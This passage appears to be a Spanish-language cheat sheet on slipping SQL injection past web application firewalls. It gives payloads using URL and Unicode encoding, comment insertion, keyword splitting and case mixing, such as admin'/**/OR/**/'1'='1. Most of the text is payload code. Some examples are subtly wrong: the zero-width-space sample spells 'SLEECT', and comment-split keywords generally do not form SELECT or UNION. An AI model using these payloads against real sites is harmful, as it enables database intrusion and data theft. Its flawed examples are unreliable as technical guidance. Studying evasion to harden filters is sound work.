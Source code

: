 
#### 📌 1. **Codificación de caracteres**

Reemplazar caracteres especiales por sus equivalentes codificados (hex, unicode, URL).

##### Original:

```sql
SELECT * FROM users WHERE username = 'admin'
```

##### Evasión:

```sql
SELECT%20*%20FROM%20users%20WHERE%20username%20=%20%27admin%27
```

O incluso usando Unicode:

```sql
S%E2%80%8BLE%E2%80%8BECT * FROM users
```

🧠 **WAFs que no normalizan bien el input podrían dejarlo pasar**.

---

#### 📌 2. **Uso de comentarios en SQL**

##### Original:

```sql
admin' OR '1'='1
```

##### Evasión:

```sql
admin'/**/OR/**/'1'='1
```

🧠 Algunos WAFs no procesan los `/**/` como parte del código.

---

#### 📌 3. **Uso de palabras divididas**

Dividir palabras clave en varias partes para evadir firmas de detección:

```sql
UN/**/ION SEL/**/ECT username FROM users
```

---

#### 📌 4. **Case manipulation (cambios en mayúsculas/minúsculas)**

Algunos WAFs solo detectan palabras clave en minúsculas.

```sql
SeLeCt * fRoM users
```

---